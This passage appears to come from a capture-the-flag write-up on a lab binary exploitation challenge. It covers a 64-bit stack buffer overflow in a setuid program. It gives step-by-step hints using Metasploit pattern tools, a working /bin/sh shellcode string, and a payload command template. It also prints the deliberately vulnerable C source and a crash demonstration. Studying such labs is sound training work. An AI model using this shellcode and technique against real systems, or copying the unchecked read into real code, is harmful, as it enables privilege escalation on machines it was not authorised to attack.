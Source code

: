 If you are stuck, here are the hints for the exploit.

* **Hint 1**: Step to overflow 64-bits buffer
  * **Step 1**: Generate a pattern, copy and paste this as input to the binary (use pattern_create.rb from Metasploit)
  * **Step 2**: Read and copy the value from register RBP for the offset.
  * **Step 3**: Calculate the offset. (use pattern_offset.rb from Metasploit)
  * **Step 4**: Try control the register RIP with the following payload Junk*(offset value) + 8 bytes of dummy
  * **Step 5**: Read the stack or register RSP to find a suitable return address.
  * **Step 6**: The general payload should be like below Nop + shellcode + Junks + return address
* **Hint 2**: Working shellcode `\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05`
* **Hint 3**: Running the payload with the binary `(python -c "print('\x90'*(fill in the number) + (shellcode) + 'A'*(fill in the number) +(return address))";cat) | ./bof64`

For your information, the Gnu debugger or gdb is installed with the machine. Happy hunting!

```
des@THM_exploit:~$ ./bof 
Enter some string:
test
You entered: test
des@THM_exploit:~$ file bof
bof: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=4a53f62986d7ff151cb42f0bdf26ce36c28ca5dd, not stripped
```

```
kali@kali:~/CTFs/tryhackme/Binex$ cat bof64.c
```

```c
#include <stdio.h>
#include <unistd.h>

int foo(){
        char buffer[600];
        int characters_read;
        printf("Enter some string:\n");
        characters_read = read(0, buffer, 1000);
        printf("You entered: %s", buffer);
        return 0;
}

void main(){
        setresuid(geteuid(), geteuid(), geteuid());
        setresgid(getegid(), getegid(), getegid());

        foo();
}
```

```
des@THM_exploit:~$ echo $(python -c 'print("A" * 650)') | ./bof
Enter some string:
Segmentation fault (core dumped)
```

